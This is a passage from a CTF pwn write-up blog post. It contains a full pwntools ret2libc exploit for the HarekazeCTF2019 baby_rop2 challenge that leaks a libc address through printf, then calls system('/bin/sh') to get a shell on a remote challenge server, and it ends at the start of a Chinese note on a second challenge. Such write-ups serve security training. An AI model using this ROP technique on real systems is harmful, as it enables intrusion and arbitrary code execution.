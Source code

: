 ```yaml
---
title: buuctf-pwn write-ups (3)
date: 2023-02-28 22:06:00
categories:
- write-ups
- buuctf 系列
---
```

# buu027-[HarekazeCTF2019]baby_rop2

```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29802)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')

poprdi_ret = 0x400733
poprsir15_ret = 0x400731

payload = cyclic(0x28)
payload += p64(poprdi_ret)
payload += p64(0x400790)
payload += p64(poprsir15_ret)
payload += p64(elf.got['read'])
payload += p64(0)
payload += p64(elf.plt['printf'])
payload += p64(elf.symbols['main'])

io.sendlineafter(b'What\'s your name? ', payload)
io.recvuntil(b'\n')
read = u64(io.recv(6) + b'\x00\x00')
base = read - libc.symbols['read']
system = base + libc.symbols['system']
binsh = base + next(libc.search(b'/bin/sh'))

print(hex(read))

payload = cyclic(0x28)
payload += p64(poprdi_ret)
payload += p64(binsh)
payload += p64(system)
payload += p64(elf.symbols['main'])

io.sendlineafter(b'What\'s your name? ', payload)

io.interactive()
```
# buu028-ciscn_2019_es_2
这一题乍一看是栈溢出，但最鸡贼的是只能溢出4个字节，也就是只够覆盖返回地址。不过还是有办法拿到libc的地址的：
